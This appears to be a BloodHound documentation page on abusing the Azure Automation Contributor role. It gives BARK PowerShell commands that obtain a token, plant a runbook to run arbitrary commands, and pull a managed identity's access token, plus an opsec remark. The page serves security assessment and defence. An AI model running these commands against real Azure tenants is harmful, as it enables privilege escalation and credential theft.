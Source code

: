 ---
title: AZAutomationContributor
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


The Azure Automation Contributor role grants full control of the target Azure Automation Account. This includes the ability to execute arbitrary commands on the Automation Account.

## Abuse Info

You can use BARK’s New-AzureAutomationAccountRunBook and Get-AzureAutomationAccountRunBookOutput functions to execute arbitrary commands against the target Automation Account.

These functions require you to supply an Azure Resource Manager scoped JWT associated with the principal that has the privilege to add or modify and run Automation Account run books. There are several ways to acquire a JWT. For example, you may use BARK’s Get-ARMTokenWithRefreshToken to acquire an Azure RM-scoped JWT by supplying a refresh token:

```bash
$ARMToken = Get-ARMTokenWithRefreshToken `
    -RefreshToken "0.ARwA6WgJJ9X2qk..." `
    -TenantID "contoso.onmicrosoft.com"
```

Now you can use BARK’s New-AzureAutomationAccountRunBook function to add a new runbook to the target Automation Account, specifying a command to execute using the -Script parameter:

```bash
New-AzureAutomationAccountRunBook `
    -Token $ARMToken `
    -RunBookName "MyCoolRunBook" `
    -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount" `
    -Script "whoami"
```
After adding the new runbook, you must execute it and fetch its output. You can do this automatically with BARK’s Get-AzureAutomationAccountRunBookOutput function:

```bash
Get-AzureAutomationAccountRunBookOutput `
    -Token $ARMToken `
    -RunBookName "MyCoolRunBook" `
    -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount"
```
If the Automation Account has a managed identity assignment, you can use these two functions to retrieve a JWT for the service principal like this:

```bash
$Script = $tokenAuthURI = $env:MSI_ENDPOINT + "?resource=https://graph.microsoft.com/&api-version=2017-09-01"; $tokenResponse = Invoke-RestMethod -Method Get -Headers @{"Secret"="$env:MSI_SECRET"} -Uri $tokenAuthURI; $tokenResponse.access_token
New-AzureAutomationAccountRunBook -Token $ARMToken -RunBookName "MyCoolRunBook" -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount" -Script $Script
Get-AzureAutomationAccountRunBookOutput -Token $ARMToken -RunBookName "MyCoolRunBook" -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount"
```
If successful, the output will include a JWT for the managed identity service principal.

## Opsec Considerations

This will depend on which particular abuse you perform, but in general Azure will create a log event for each abuse.

## References
* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
* [https://posts.specterops.io/managed-identity-attack-paths-part-1-automation-accounts-82667d17187a](https://posts.specterops.io/managed-identity-attack-paths-part-1-automation-accounts-82667d17187a)
